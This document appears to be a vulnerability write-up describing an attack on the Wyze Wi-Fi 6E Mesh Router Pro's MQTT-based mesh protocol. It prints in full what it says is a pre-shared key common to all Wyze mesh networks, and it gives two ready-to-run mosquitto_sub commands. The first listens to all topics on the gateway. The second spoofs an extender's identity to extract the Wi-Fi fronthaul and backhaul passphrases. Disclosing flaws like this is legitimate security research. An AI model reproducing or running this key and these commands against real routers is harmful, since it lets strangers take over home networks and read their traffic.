


# Wyze Mesh Network Attack
## Intro
In this write-up, we use Wyze Wi-Fi 6E Mesh Router Pro, firmware version 1.0.1.109 as an illustration example. 

Wyze uses MQTT with TLS as its NAPS protocol. The gateway node opens TCP port 1883 for this purpose. 

However, all Wyze mesh networks share a common key for these MQTT connections, which is a type of vulnerability called "missing cross-layer trust".

To perform the Wi-Fi passphrase stealing attack, we first search the Wyze firmware and find the MQTT PSK to be:
```
72262d702857592b7a5d2925474c5f4b466d2d7875632e5d2155717a7b784052656d527a284a3e4b71597a645b2b2f533c292921465748213e7754756e71262c
```

The `psk-identity` of this PSK is `LO_MESH6`. How to find this key within the firmware is left as an exercise. 

Thus, an attacker can directly dial encrypted connections to a gateway's port 1883 to read Wi-Fi fronthaul/backhaul passphrases. 

## Attack Step 1: Subscribe and listen to all topics of the MQTT channel 

Install `mosquitto_sub` and run the following command: 

```
mosquitto_sub -h 192.168.50.1 -p 1883 --psk-identity LO_MESH6 --psk 72262d702857592b7a5d2925474c5f4b466d2d7875632e5d2155717a7b784052656d527a284a3e4b71597a645b2b2f533c292921465748213e7754756e71262c -t '#' -d
```

You will start to see some non-critical control data:


Then, you can see the identity `LO_MESH6E_7C78B2E999C0`. This is the extender's MQTT identity. 

We see only non-critical data here. For example, Wi-Fi fronthaul/backhaul passphrases are not shown. In the next step, we will manually trigger a contention/race condition by spoofing `LO_MESH6E_7C78B2E999C0`. In this way, the extender node will try to reinitiate MQTT connections and pull network access policies from the gateway node. 

## Attack Step 2: Spoof the extender identity with another MQTT connection, and read Wi-Fi fronthaul/backhaul passphrases.
Keep the first connection on and use another terminal window to open another MQTT connection and spoof the extender identity: 

```
mosquitto_sub -h 192.168.50.1 -p 1883 --psk-identity LO_MESH6 --psk 72262d702857592b7a5d2925474c5f4b466d2d7875632e5d2155717a7b784052656d527a284a3e4b71597a645b2b2f533c292921465748213e7754756e71262c -i LO_MESH6E_7C78B2E999C0 -t 'liteon/device/LO_MESH6E_7C78B2E999C0/#' -d
```

You will immediately see critical control data showing up in the first connection:



You can see Wi-Fi fronthaul/backhaul passphrases there. 

